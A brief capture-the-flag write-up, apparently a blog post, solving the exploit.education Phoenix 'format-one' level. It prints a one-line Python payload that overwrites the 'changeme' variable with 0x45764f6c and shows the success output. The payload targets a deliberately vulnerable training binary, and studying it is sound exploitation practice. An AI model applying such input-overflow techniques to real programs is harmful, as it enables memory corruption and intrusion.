 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x1"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Format One](https://exploit.education/phoenix/format-one/)

<!--more-->

This is the exact same challenge as format-zero, but now we need to be precise.
Since we did this in the previous exercise already, we can come to the solution immediately.

We want to change the `changeme` variable to `0x45764f6c`

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "%32x" + "\x45\x76\x4f\x6c"[::-1]' | ./format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

Remember the little-endianness aaand: done.

